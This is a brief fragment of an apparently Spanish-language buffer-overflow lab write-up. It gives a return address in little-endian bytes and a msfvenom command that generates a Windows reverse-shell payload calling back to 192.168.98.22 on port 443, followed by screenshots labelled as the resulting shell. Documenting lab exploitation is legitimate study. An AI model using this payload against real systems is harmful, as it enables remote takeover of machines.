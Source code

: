 ```php
0x625011AF
```

```php
 \xAF\x11\x50\x62
```

## Generando payload

```php
❯ msfvenom -p windows/shell_reverse_tcp EXITFUNC=thread LHOST=192.168.98.22 LPORT=443 --platform windows -b "\x00\x08\x2c\xad" -f c
```

![20240228180412.png](20240228180412.png)

## Shell

![20240228180513.png](20240228180513.png)

